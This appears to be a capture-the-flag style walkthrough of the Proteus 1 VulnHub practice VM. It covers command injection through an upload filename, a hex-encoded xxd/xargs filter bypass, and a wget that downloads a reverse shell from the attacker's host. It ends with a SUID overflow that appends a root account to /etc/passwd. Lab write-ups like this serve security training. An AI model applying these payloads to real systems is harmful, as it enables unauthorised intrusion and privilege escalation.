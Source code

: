 # Proteus 1 Vulnhub Walkthrough

## Intro

Below you will find a walkthrough of the Proteus 1 VM. This was a fun and challenging machine. This page is full of fun spoilers, so if you're 
still attemping to root the machine, try harder :). Without further ado, let's dive in. 

## Download and Find It

Download the Proteus VM from [VulnHub](https://www.vulnhub.com/entry/proteus-1,193/), load it up, and pick your favorite tool. For quick identification,
 I use nmap.
 
`nmap 192.168.2.0/24 -sP
Starting Nmap 7.70 ( https://nmap.org )
Nmap scan report for Proteus (192.168.2.180)
Host is up (0.23s latency).
`

## Start Enumeration

I use a series of scripts to gather most of the information for me. Reconscan by Mike Czumak does an nmap script and starts work on additional modules
depending on what ports are determined to be open. There are three main ports open: 22, 80, and 5355

<INSERT CODE/IMAGE HERE>

Nikto and Dirb scans are kicked off for port 80. Let's continue exploring the website.

## Proteus

Fire up Burp and head to the web page. First notes are that there is a file upload, which is always fun to play with, and a login. Some quick auth bypass tries and sqlmap bear no fruit, so I focus on the main function and upload some files. If you upload something that doesn't fit the MIME type, Proteus gets mad at you and rejects. When you get a successful upload, Proteus brings you to the /samples page. 

<IMAGE HERE>

Proteus changes our file name to a base64 encoded value, runs strings, and runs objdump on our file. That's nice of them. We can also see uder objdump our file name (stored in /home/malwareadm/samples/). 

Looking at the POST in Burp, we have name="file"; and filename="file.bin" that we can mess with. I tried messing around wtih base64 encoded filenames first, but it's always better to keep it simple. Test for command injection in the filename parameter. filename="file.bin;id" works when you reload your webpage. 

## Messing With Command Injection

This part gave me quite a bit of trouble. The site takes the parameter of filename (currently set to file.bin;id), converts it to a random string (and keeps the extension if possible), and then runs base64 on it. It is useful that we know the name of our file as we can use it to access our own payloads on the server if  need be. 

I needed to generate a 'bad characters' list as some commands would not pass through. The website makes this pretty simple and fails obviously when testing. 

Good chars <IMAGE>
Bad chars <IMAGE>

Most of the commands that would give us further access require either '/' for files or a '.' for an ip address. I could open a port with nc, but I couldn't actually connect or interact with it afterwards. Looking back at the good character list, we have access to pipe. Essentially, if we can string together a set of commands, encoded or otherwise, we can create complex commands for execution.

After much trial and error I'm left with the following: `echo <hex encoded command> | xxd -r -p | xargs -i{} sh -c '{}'`

Taking hex encoded values, I can pass it to xxd (which also handles the encoding), and finally pass it to xargs which can handle the execution by bassing to sh. It was easy passing encoded values; however, they wouldn't execute (or if they did it was blind). I also ran into an issue that the server changes the filename parameter to all lower case. Initially I messed with xargs -I, but the server didn't like it. The xargs -i[replace] functionality is apparently deprecated (check man) in favor of -I, so I'm glad I had a version (4.7.0) that still had it. 
 
## Arbitrary Command Injection

It's easy to create hex encoded commands. I also created a quick script to help double check my works and possibly handle other use cases (though be wary of my shaky script abilites). Let's check again to see everything working. Here is the payload with 'cat /etc/passwd'

<IMAGE>

Now we can try to put a reverse shell in. The current account doesn't have write access to the web directory, so I needed to put it somewhere else. wget supports this. 
`wget -O /tmp/simpleshell.py http://<IP ADDR>/simpleshell.py`
Encode it, send it, and double check the file was recieved. You can always look at your own apache access.log to see if the GET was successful, or you can 'ls' the /tmp directory. If you check the /tmp directory with permissions, you can see they were nice enough to even grant our shell execute permissions. 

<IMAGE>

So now all I have to do is throw up a listner and execute the shell.

## >_Terminal

Once inside you can explore around to your heart's content. There are some config files with credentials and a test admin login that can be used for the web page. There is even a RSA private key (password protected). Keep exploring and you'll eventually find a quaint file: admin_login_logger. Check it's permissions and notice anything special? The sticky bit is set and the owner is root. I nc it over to my machine for further testing. 

admin_login_logger takes a parameter and writes it to a log file. 
<IMG>
Nothing too special, but user input is a fickle thing. I generated a junk pattern and pass it into the logger to see interestinng effects. 
<IMG>

An overflow occurs and I actually overwrite the file location and file name. Cool. So I have the ability to write to any file as root with a certain space for a payload. A few things to note about the overflow: it starts user input with a new line, the user input is appended to the end of the file, the user has limited space for the payload, and the user has limited space in the file name for the path and file. Calculating the pattern offset is 456 based on the name of the file created when I hit the first overflow. 
 
With these notes in mind, I can craft a payload. I fire up python interpreter for some quick work. 
`def pad(len):
    pad="A"*len
    return pad
`
`def gen():
    payload=userInput + pad(patternCustomLen-len(userInput)) + fileToOverwrite
    print payload
`
I initially thought I could overwrite the /etc/passwd file and remove the root account password, but this is when I found that the overflow just appends user input to the end. It also doesn't handle new lines very well either. Another easy thing to do is add an account to the machine. I crafted a user without a password and the machine still wouldn't let me su. Then, hashed a password (I used openssl passwd), created a user, su ... and fail because the overflow overwrote the :shell: section of /etc/passwd and the machine didn't know what to give me. 
 
Finally, here is the user input section of the final payload: `<username>:<password>:0:0::/tmp/`
 
Now to su <username>, type the password, and pop to a root shell.
 
<IMG>
 
Now you can find the flag and display it. 
 
<IMG>
 
##  Final comments

Overall I had a lot of, albeit frustrating, fun. I needed the practice and learned some things along the way. The system gives a lot of leeway to the user because it executes commands in so many places and even grants them execute rights. Crafting the original injection is probably the hardest part. Now onto the next one.

